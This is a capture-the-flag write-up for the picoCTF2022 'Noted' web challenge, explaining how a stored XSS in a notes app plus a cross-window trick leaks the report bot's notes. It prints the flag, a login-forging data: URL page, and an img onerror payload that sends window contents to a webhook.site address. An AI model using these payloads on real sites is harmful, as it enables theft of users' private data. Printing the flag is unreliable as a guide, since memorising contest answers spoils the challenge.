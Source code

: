   # picoCTF2022: Noted

![Contest Date: 15.03.2022](https://img.shields.io/badge/Contest%20Date-15.03.2022-lightgrey.svg)
![Solve Moment: During The Contest](https://img.shields.io/badge/Solve%20Moment-During%20The%20Contest-brightgreen.svg)
![Score: 500](https://img.shields.io/badge/Score-500-brightgreen.svg)

## Description

> I made a nice web app that lets you take notes. I'm pretty sure I've followed all the best practices so its definitely secure right?
Note that the headless browser used for the "report" feature does not have access to the internet.




## Attached Files

- noted.tar.gz

## Flag

```
picoCTF{p00rth0s_parl1ment_0f_p3p3gas_386f0184}
```

## Detailed Solution

After looking at the source, it seems that this is a website that allows to create an account, login, and create notes. The notes seem to be private, and only visible to the logged in user, and are not accessible through some URL. Looking at some past challenges and writeups that dealed with Notes. After searching online for these type of past challenges, we can get some results such as [TBDXSS](https://ctftime.org/task/17592) and [XSS On Other Domain](https://www.youtube.com/watch?v=9ecv6ILXrZo). Now we need to first see if our website is vurlnerable to XSS, so we can put in a sample test payload in our notes such as
```js
  <script>alert(1)</script>
```
Putting this in Notes, <p align="center">![logo](https://github.com/Thinker28/picoCTF2022/blob/main/Web-Exploitation/Noted/Screen%20Shot%202022-04-06%20at%202.39.01%20PM.png)</p>

We get, <p align="center">![logo](https://github.com/Thinker28/picoCTF2022/blob/main/Web-Exploitation/Noted/Screen%20Shot%202022-04-06%20at%202.43.57%20PM.png)</p>

Now we have confirmed that our website is vurlnerable to XSS. Now scanning through the writeups, the latter video seems especially helpful, because we want to craft a payload to get the flag on another domain. So now let's try to reiterate on what we exactly want to do. We want some payload, which our bot will run to steal it's notes which will contain the flag. However, we need to make the bot run this directly. Here's where I got multiple ideas on how to approach this. One of my initial plans was to directly fetch the notes of the bot, using the `fetch()` command, then taking that response, and sending it's text to our webhook which then would be the flag. But after trying it out, we would see that this would not work. After a lot of googling, we would see that this would be common in a lot of XSS challenges, and is caused by the CORS policy disabled. One ideal plan would be to create a temporary account, and put the XSS Payload that will print the contents of a window of the bot, which will have the flag. And then from the Report function we first open a window which we can later use to read the contents of the bots notes, and getthe flag. Then we can open a window which we can then login to the temporary account we created, and access the notes of the temporary account which will run our payload, and send the flag through a webhook. Now implementing this, we get

```html
data:text/html,
<form action="http://0.0.0.0:8080/login" method=POST id=WebsiteForm target=_blank>
<input type="text" name="username" value="test"><input type="text" name="password" value="test">
</form>
<script>window.open('http://0.0.0.0:8080/notes','window1'); 
```

Let's break down what this does. The first part inside <form> just logs us in with the account test:test. Then the second part inside our <script> first opens up a window with the admins notes, and name it "window1". Note, that this keeps this window open while we later login as our user. Then we submit our form, and login in as test:test. 
We will use this in our report function.

```html
<img src=x onerror="window.location='https://webhook.site/5ca98311-0281-432a-a3f7-6ebd23deb0dc/'+window.open('', 'window1').document.body.textContent">
```

We will put this in the notes of our temporary account.

Now trying this out we get this in our webhook, <p align="center">![logo](https://github.com/Thinker28/picoCTF2022/blob/main/Web-Exploitation/Noted/Screen%20Shot%202022-04-04%20at%207.43.03%20PM.png)</p>

Now URL Decoding this we get our flag :D, <p align="center">![logo](https://github.com/Thinker28/picoCTF2022/blob/main/Web-Exploitation/Noted/Screen%20Shot%202022-04-04%20at%207.45.11%20PM.png)</p>
